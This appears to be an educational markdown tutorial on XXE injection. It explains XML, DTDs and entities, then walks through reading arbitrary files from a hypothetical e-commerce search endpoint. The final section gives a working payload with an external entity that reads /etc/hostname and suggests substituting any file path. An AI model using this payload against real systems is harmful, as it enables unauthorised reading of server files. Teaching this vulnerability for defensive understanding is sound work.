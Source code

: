 # XXE Injection

> **XXE Injection** is a web application security vulnerability which allows malicious attackers to interfere with XML parsing of the web application, typically resulting in the access to the contents of arbitrary files on the system, perform a DOS attack, enumerate internal systems and much more.

XEE Injection arises because of the potential dangerous features that XML parser provides. The features though not needed, might be enabled in the web application, which results in the injection to become successful.

## XML Introduction

XML or _Extensible Markup Language_ is a type of markup language that provides a set of rules for encoding a document that can be read by both humans and machines. The main aspect of XML is to provide ability for inter-communication between machines.

For Example,

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <person>
    <firstname>
      John
    </firstname>
    <lastname>
      Doe
    </lastname>
  </person>
```

The above XML file defines a simple set of data enclosed in opening and closing tags.


### DTD

> Document Type Definition also know as DTD is a set of declarations that define the structure of a XML document.

Example,

```xml
  <?xml version="1.0"?>
  <!DOCTYPE person [
    <!ELEMENT person (firstname, lastname, age)>
    <!ELEMENT firstname (#PCDATA)>
    <!ELEMENT lastname (#PCDATA)>
    <!ELEMENT age (#PCDATA)>
  ]>
  <person>
    <firstname>
      John
    </firstname>
    <lastname>
      Doe
    </lastname>
    <age>
      45
    </age>
  </person>
```

In the above example,

- `!DOCTYPE person` defines that root element should be `person`.
- `!ELEMENT person` defines that `person` element must have `firstname`, `lastname` and `age` as it's children.
- `!ELEMENT firstname` defines that `firstname` should be of `#PCDATA` type.
- `!ELEMENT lastname` defines that `lastname` should be of `#PCDATA` type.
- `!ELEMENT age` defines that `age` should be of `#PCDATA` type.

Following the above DTD rules we have,

```xml
<person>
    <firstname>
      John
    </firstname>
    <lastname>
      Doe
    </lastname>
    <age>
      45
    </age>
 </person>
```

### External DTD

>DTD can be referenced through external files using SYSTEM keyword.

Example,

```xml
<?xml version="1.0"?>
<!DOCTYPE person SYSTEM "person.dtd">
<person>
    <firstname>
      John
    </firstname>
    <lastname>
      Doe
    </lastname>
    <age>
      45
    </age>
 </person>
```

The `SYSTEM` keyword is responsible for external references.
Now `person.dtd` will have,

```xml
  <!ELEMENT person (firstname, lastname, age)>
  <!ELEMENT firstname (#PCDATA)>
  <!ELEMENT lastname (#PCDATA)>
  <!ELEMENT age (#PCDATA)>
```

### XML Custom Entities

XML Custom entities enables to reference a user-defined entity in a DTD.

Example,

```xml
  <!DOCTYPE person [
  <!ELEMENT person (#PCDATA) >
  <!ENTITY name "John Doe">
  ]>
  <person>
    &name;
  </person>
```

The `&name;` would then be replace by `John Doe` because it's a custom entity defined in DTD.

## Exploiting XXE Injection

There are numerous XXE attacks but we will mainly focus few of them.

### Reading Arbitrary files using XXE Injection

To be able to read arbitrary files we need to do two things,

1. Insert or modify an external entity that will reference our arbitrary file.
2. Use the defined *external* entity in the XML that gets returned with the application's response along with the contents of the arbitrary file.

Let's say you went to an e-commerce website and you found out that their search functionality uses **XML** in their POST data to send search term to the backend.

POST Request sample,

```post
POST /search/ HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/xml
Content-Length: 107
DNT: 1
Connection: close

<?xml version="1.0" encoding="UTF-8"?><term>Cars</term>
```

To retrieve contents of file at `/etc/hostname` we first define an external entity as,

```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///etc/hostname'> ]>
```

and then, we use the external entity in the XML that will get returned as response to our request.

```xml
  <term>&xxe;</term>
```

Now our full XEE payload will become,

```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///etc/hostname'> ]>
  <term>&xxe;</term>
```

Voila! The response we get is,

`No results for "MY_COMPUTER."`

Enclosed between the quotes is our contents of `/etc/hostname`. Just replace `/etc/hostname` with any file name to retrieve it's contents.
